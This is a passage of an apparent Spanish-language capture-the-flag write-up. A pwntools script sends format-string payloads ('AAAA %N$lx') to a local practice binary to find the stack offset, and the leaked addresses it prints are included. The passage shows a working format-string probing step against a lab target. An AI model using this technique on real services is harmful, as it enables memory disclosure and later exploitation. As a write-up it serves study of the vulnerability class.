 Como el **fgets** solo recoge 16 caracteres así que vamos a user un **fuzzer**:


```python
#!/usr/bin/env python
from pwn import *

e = ELF("./q3")

for i in range(20):
        io = e.process(level="error")
        io.sendline("AAAA %%%d$lx" % i)
        io.recvline()
        print("%d - %s" % (i, io.recvline().strip()))
        io.close()
```

Out:
```
0 - AAAA %0$lx                                                                                        
1 - AAAA 56029be1e010                                                                                 
2 - AAAA 7f84ddb19780                                                                                 
3 - AAAA 7f902807d2c0                                                                                 
4 - AAAA 7f1b8aed0700                                                                                 
5 - AAAA 0                                                                                            
6 - AAAA 7ffc5d103eae                                                                                 
7 - AAAA 7f0219f288e0                                                                                 
8 - AAAA 2438252041414141                                                                             
9 - AAAA a786c                                                                                        
10 - AAAA 7ffc1bb38f60                                                                                
11 - AAAA 36ddf28abc7d1800                                                                            
12 - AAAA 55b9f155e830                                                                                
13 - AAAA 7fd65f6e6830                                                                                
14 - AAAA 1                                                                                           
15 - AAAA 7fff71b19528                                                                                
16 - AAAA 1e357fca0                                                                                   
17 - AAAA 55e8ca16477a                                                                                
18 - AAAA 0                                                                                           
19 - AAAA 288a7d584b85d47e
```
